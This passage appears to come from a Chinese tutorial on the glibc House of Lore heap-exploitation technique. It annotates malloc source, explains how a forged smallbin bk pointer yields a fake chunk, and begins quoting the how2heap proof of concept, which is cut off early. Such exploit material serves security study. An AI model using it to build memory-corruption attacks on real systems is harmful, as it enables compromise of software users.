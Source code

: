 ```c
                if (av != &main_arena) set_non_main_arena(victim);
                // 细致的检查
                check_malloced_chunk(av, victim, nb);
                // 将申请到的 chunk 转化为对应的 mem 状态
                void *p = chunk2mem(victim);
                // 如果设置了 perturb_type , 则将获取到的chunk初始化为 perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }

```

这样仔细来看，是有一个漏洞的，就是在smallbin中存在其他堆块的时候，我们通过审查源码可以发现如果能够将头chunk的bk修改并且指向fake\_chunk并通过偶检查，在取走头部chunk之后，fake\_chunk就成为了挂在bk链的首部。

### 利用条件

首先就是最重要的条件，就是能够申请一块或者得到一块smallbin大小的chunk。其次，就是在smallbin的bk指针处能够伪造一个fake\_chunk，这就要求我们必须可以控制smallbin的bk指针，并且可以提前布置好fakechunk并且指向smallchunk的头部。并且fake\_chunk能够通过fd的检测：\_\_glibc\_unlikely(bck-&gt;fd != victim)

### poc调试

从网上巴拉了how2heap House Of Lore的POC

```c
/*
Advanced exploitation of the House of Lore - Malloc Maleficarum.
This PoC take care also of the glibc hardening of smallbin corruption.
[ ... ]
else
    {
      bck = victim->bk;
    if (__glibc_unlikely (bck->fd != victim)){
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
       set_inuse_bit_at_offset (victim, nb);
       bin->bk = bck;
       bck->fd = bin;
       [ ... ]
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

void jackpot(){ fprintf(stderr, "Nice jump d00d\n"); exit(0); }

int main(int argc, char * argv[]){

  intptr_t* stack_buffer_1[4] = {0};
  intptr_t* stack_buffer_2[3] = {0};

  fprintf(stderr, "\nWelcome to the House of Lore\n");
  fprintf(stderr, "This is a revisited version that bypass also the hardening check introduced by glibc malloc\n");
  fprintf(stderr, "This is tested against Ubuntu 16.04.6 - 64bit - glibc-2.23\n\n");

  fprintf(stderr, "Allocating the victim chunk\n");
```